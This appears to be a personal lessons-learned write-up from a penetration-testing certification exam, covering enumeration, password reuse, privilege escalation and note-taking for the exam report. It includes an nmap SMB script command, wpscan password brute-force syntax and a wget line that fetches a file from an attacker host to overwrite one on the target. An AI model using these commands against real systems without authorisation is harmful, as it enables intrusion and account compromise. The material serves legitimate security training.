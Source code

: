 ### Lessons Learned

General Methodology:
- If you're struggling with a foothold, look for slightly less common file extensions in your scan names - `.txt`, `.pl`, `.sh`, `.cgi`
- Even if you don't love `autorecon`, run it when you're stuck! I prefer manual enumeration initially, but some of autorecon's choices of `nmap` scripts found things I couldn't find manually
- This `nmap` command is great for enumerating SMB share contents if you can't find anything with `smbclient` or `smbmap`: `nmap -vv --reason -Pn -sV -p 139 "--script=banner,(nbstat or smb* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" --script-args=unsafe=1`
- If you have a username or a password, try it on ALL services! Password reuse is a common foothold vulnerability
	- Similarly, if you can't get anonymous access to a service (SMB, FTP etc) don't forget about it once you *do* have creds - I put these services aside once I couldn't get access, and it took a while to click that I might have password reuse
- Google the version numbers for *every* service - even if it's not a service you'd usually attack, such as SSH
- Spending time reviewing all the information you have is a valuable activity and can help you spot attack vectors

New Tricks, Tools, and Skills:
- To view all autorecon results at once, navigate to `scans/[IP]/results` and type `cat *.txt | less`
- `wpscan` has a brute-force mode that uses XMLRPC to guess passwords, which can save you using a metasploit allowance when brute forcing `/wp-admin` logins - the syntax is `wpscan --url [URL] --usernames [LIST] --passwords [LIST]`
- If you have a bad shell with limited interactivity (i.e. no text editors), a good way of overwriting a file on the target is to edit and host it locally, and then use `wget -O target_file http://[ATTACKER_IP]/edited_file`

Privilege Escalation:
- if a 'vulnerable' file (e.g. a SUID, cron job running as root etc) looks familiar (i.e. a standard SUID like `passwd`), don't ignore it - it's slower, but checking each of these files' permissions manually could show you a writeable binary that you can hijack

Note Taking for Report:
- if you got access to FTP/SMB file contents via an automated script like `nmap`, make sure you can explain *why* - it's helpful to get a screenshot of a manual version of the command, so you can explain what led to the access (e.g. weak credentials, null authentication etc)
- **ALWAYS** copy the final command you used for a shell
- get a screenshot of the command/action you used to spawn a shell, as well as the shell returning - for example, note down the URL of a request to a webshell and take a screenshot of the page or a Burp Repeater window
- Remember to fill in the appendices for proof file contents, meterpreter usage etc
- I also restructured my report this time to include the `nmap` results for each machine with the rest of that machine's writeup, instead of having all scans in the Information Gathering section

Exam Efficiency:
- next time, sleep less if you don't have many points by the end of the first day! aim for 00:00 - 06:00, as you needed the extra five minutes

## General Lessons Learned
